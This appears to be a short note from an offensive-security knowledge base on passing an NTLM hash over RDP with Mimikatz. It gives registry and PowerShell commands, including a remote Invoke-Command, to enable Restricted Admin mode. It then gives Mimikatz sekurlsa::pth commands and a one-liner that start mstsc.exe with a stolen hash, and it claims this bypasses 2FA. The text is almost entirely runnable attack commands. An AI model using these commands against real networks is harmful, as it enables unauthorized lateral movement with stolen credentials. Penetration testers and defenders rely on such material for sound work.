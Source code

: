 # Mimikatz

Search Tag(s): #post-exploitation #lateral-movement #offensive-tools #windows

> [!INFO]
> This is will bypass 2FA (two factor authentication) if it was configured in enterprise networks. It allows RDP authentication with Pass The Hash methods.

## 01 - Conditions

Enable restricted admin mode.

### 1.1 - Command Prompt

```
C:\> reg.exe add [\\<IP>\]HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
```

### 1.2 - PowerShell

```
PS C:\> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWORD -Force

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWORD -Force }
```

## 02 - Run RDP Remote Session 

After passing the hash. Create a new process to authenticate RDP. This is much easier to do.

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<nt_hash>

mimikatz # process::start "mstsc.exe /v:<IP> /restrictedadmin"
```

You can do this in one-liner.

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<nt_hash> /run:"mstsc.exe /v:<IP> /restrictedadmin"
```

---
## References

- [ederml's Blog: Passing the hash with native RDP client (mstsc.exe)](https://edermi.github.io/post/2018/native_rdp_pass_the_hash/)